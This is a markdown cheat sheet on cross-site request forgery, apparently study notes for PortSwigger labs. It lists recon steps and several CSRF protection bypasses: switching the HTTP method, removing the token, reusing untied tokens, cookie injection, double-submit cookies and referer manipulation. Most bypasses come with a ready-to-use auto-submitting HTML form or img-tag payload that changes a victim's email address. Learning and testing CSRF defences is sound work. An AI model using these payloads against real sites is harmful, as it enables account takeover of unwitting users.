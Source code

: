 # Cross-site Request Forgery (CSRF)

## Summary

* [Recon for CSRF](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Resources

* https://portswigger.net/web-security/csrf
* https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery

## Recon

### Identify Potential CSRF Vectors

* Identify an application function that can be used to perform some sensitive action on behalf of another user without their knowledge, that relies solely on cookies for tracking user sessions, and that contains request parameters that an attacker can fully determine in advance.

* Some examples of sensitive actions can be changing email address, password, shipping address, transferring funds, etc.

* Create an HTML page that performs the request without user interaction.  
  * For GET requests, we can place the vulnerable URL inside of an \<img\> tag within a src attribute.  
  * For POST requests, we can create a form that contains all the required parameters and issues a request to the vulnerable URL.  JavaScript can then be used to automatically submit the form when the page loads.

* While we have an authenticated session on the application, we can load this HTML page in the same browser to confirm if the request was processed successfully.



### Example Payload:  CSRF attack with GET request

* We can use the “src” attribute within an \<img\> tag to craft the CSRF exploit, or we can simply just use a stand-alone URL.

```html
<html>
<img src="https://VULNERABLE-APPLICATION.net/my-account/change-email?email=TestCSRF%40Test.com" >
</html>
```


### Example Payload:  CSRF attack with POST request

* We need to create a form that contains all the required parameters to submit the request successfully.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

---
---


## Cheat Sheet

### No CSRF Protections

* When no CSRF protections are in place in a state-changing request, we can create an appropriate HTML page that will submit a request to the vulnerable application.

    * Payloads for CSRF GET requests can be a self-contained attack within a URL.  An attacker does not need to host the exploit code in their server.  They just need to send the malicious link to the victim user via social engineering techniques.
    
    * Payloads for CSRF POST requests, we need to create a form with all the data needed to process the request successfully.  An attacker needs to host this code somewhere and send a link of that malicious site, to the victim user. The browser will automatically add the Authenticated Session Cookie(s) to the request, when the user clicks on the link.


### CSRF Protection Bypass - HTTP Method Change

* When the application is using a CSRF Token in a body parameter of a POST request, change the HTTP request method to GET and leave out the CSRF Token parameter.  This can potentially bypass the CSRF defense put in place.  

* This can happen due to frameworks only implementing CSRF protection on state-changing requests, and state-changing requests should only be done with POST method not GET.


### CSRF Protection Bypass - Remove CSRF Parameter/Value

* When the application uses a CSRF Token as header/parameter, remove the entire CSRF Token parameter and value to potentially bypass this CSRF protection.


### CSRF Protection Bypass – CSRF Token Not Tied to User Session

* CSRF Tokens may not be tied to the user’s session.  The application may just be keeping a pool of valid tokens and if the submitted request contains one of these tokens, then the request will be processed successfully.  

* An attacker can log into the application, obtain a valid token and use this CSRF token when attacking other users via a CSRF attack.


### CSRF Protection Bypass – CSRF Token Tied to an Arbitrary Cookie

* The CSRF Token may be tied to an arbitrary Cookie.  If the application contains some functionality that allows us to set a cookie in the victim’s browser, we may be able to bypass this protection.  

* The attacker needs to log into the application, obtain a valid CSRF Token and the Cookie that it is mapped too.  Then create a crafted CSRF exploit that will set the known Cookie in the victim’s browser then submit the POST request with the necessary parameters, which should include the known CSRF Token.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
</html>
```


### CSRF Protection Bypass – Double Submit Cookie Method

* Application was using a double submit cookie for CSRF protection.  There was a CSRF Cookie and a CSRF Token parameter in the state-changing request.  These 2 values contained the exact same data; the application will process the request successfully if those 2 values are equal.

* If the application contains some functionality that allows us to set a cookie in the victim’s browser, we may be able to bypass this protection.  By crafting a payload that will set a cookie in the victim’s browser and supplying the same value as the CSRF Token parameter in the HTML form.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="iH07e8eJkWw" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="$cookie-injection-url" onerror="document.forms[0].submit()">
  </body>
</html>
```


### CSRF Protection Bypass - Referer Header Validation Bypass

* If the application is using the Referer header for protection against CSRF, remove the header/value completely and review if the request was processed successfully.  
* If the request was still successful, we can craft an HTML form that includes some attributes that will cause the browser to drop the “Referer” header with the request.  This will bypass the “protection” in place.


```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```


### CSRF Protection Bypass – Referer Header Validation Bypass

* The application was using the Referer header to defend against CSRF attacks.  The application was only checking to see if a specific domain value was somewhere within the “Referer” header.

* This validation can be easily bypassed by submitting a payload that will inject the required domain value as a query parameter in the “Referer” header.   Which will bypass this restriction, as the application is only checking if the value is somewhere in the header.


```html
<html>
    <meta name="referrer" content="unsafe-url">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?REQUIRED-REFERER-VALUE')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
